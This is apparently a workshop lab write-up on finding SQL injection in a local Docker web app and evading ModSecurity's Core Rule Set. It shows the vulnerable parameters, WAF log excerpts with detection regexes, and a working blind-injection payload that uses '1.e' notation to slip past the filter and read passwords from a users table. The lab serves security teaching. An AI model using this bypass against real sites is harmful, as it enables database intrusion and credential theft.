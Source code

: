 # SQL Syntax Lab

## Launching the instance

```
$ cd 03-sqli
$ docker-compose up
```

Open [http://localhost](http://localhost) in a browser to confirm that everything is running.


Initialize the database by fetching `db_reset.php`.

![](images/lab3_reset.png)


[Live instance (only for Hackfest)](http://hackfest.xss.lol/){ .md-button .md-button--primary target=_blank}

## Finding the SQL injections

There are two SQL injection vulnerabilities in the applications.

??? success "Answer"

    - `genre` parameter from the `index.php` page.

    - `id` parameter from the `movie_detail.php` page.


    Detection can be done
    
    ```
    GET /?genre=actio'%20'n HTTP/1.1
    Host: localhost
    [...]
    ```

## ModSecurity

As soon as you will test the parameters with SQL keywords, modsecurity return a Forbidden page.

![](images/lab3_forbidden.png)

Does the `union` and `select` are systematically blocked?

??? success "Answer"

    "Union" and "select" are english words that are too common to always be blocked.

    You can confirm this behavior by requesting `index.php?genre=union`
    
    ModSecurity is a combination of RegEx and context analysis by libinjection. Looking at the log you will be able to see which rule is triggered.


## Log Troubleshooting

The log is pretty verbose because they attach complete requests.

Here is a Regex rule that matched:
```
ModSecurity: Warning. Pattern match \"(?i:(?:[\\\\\\\\\"'`](?:;?\\\\\\\\\\\\\\\\s*?(?:having|select|union)\\\\\\\\\\\\\\\\b\\\\\\\\\\\\\\\\s*?[^\\\\\\\\\\\\\\\\s]|\\\\\\\\\\\\\\\\s*?!\\\\\\\\\\\\\\\\s*?[\\\\\\\\\"'`\\\\\\\\\\\\\\\\w])|(?:c(?:onnection_id|urrent_user)|database)\\\\\\\\\\\\\\\\s*?\\\\\\\\\\\\\\\\([^\\\\\\\\\\\\\\\\)]*?|u(?:nion(?:[\\\\\\\\\\\\\\\\w(\\\\\\\\\\\\\\\\s]*?select| select @)|ser\\\\\\\\\\\\\\\\s*?\\\\\\\\\\\\\\\\([^\\\\\\\\\\\\\\\\)]*?)|s(?:chema\\\\\\\\\\\\\\\\s*?\\\\\\\\\\\\\\\\([^\\\\\\\\\\\\\\\\)]*?|elect.*?\\\\\\\\\\\\\\\\w?user\\\\\\\\\\\\\\\\()|in ...\" at ARGS:genre. 
[file \"/etc/modsecurity.d/owasp-crs/rules/REQUEST-942-APPLICATION-ATTACK-SQLI.conf\"] 
[line \"183\"] [id \"942190\"]
```

Here libinjection
```
[id \"942100\"] 
[msg \"SQL Injection Attack Detected via libinjection\"] 
[data \"Matched Data: s&(s) found within ARGS:genre: union' or ('')='\"] 
[severity \"CRITICAL\"]
```

Can you use the scientific notation to confuse modsecurity? If you want the solution, read the next section.

## Exploitation

Here is the general syntax necessary to exfiltrate varchar values from the database. 

=== ":octicons-check-circle-fill-16: Obfuscated query"

    With the `1.e` notation expression that is ignored by the DBMS.

    ```sql
    or 1.e(ascii 1.e(substring(1.e(select password from users limit 1 1.e,1 1.e) 1.e,1 1.e,1 1.e)1.e)1.e) = 70 or'1'='2
    ```

=== ":octicons-skip-16: Actual query"

    This is how the DBMS will interpret the query.

    ```sql
    or (ascii (substring((select password from users limit 1,1) ,1 ,1 ))) = 70 or'1'='2
    ```

> With this SQL syntax, we are targeting the field `password` from the table `users`. The function substring is used to extract one character at the time and compare it to an ascii value (`70` in the example).

## Scripting

Once you have a working request that is producing an oracle (binary response based on the matching content). It is possible to script an attack to extract the complete content of any database tables.

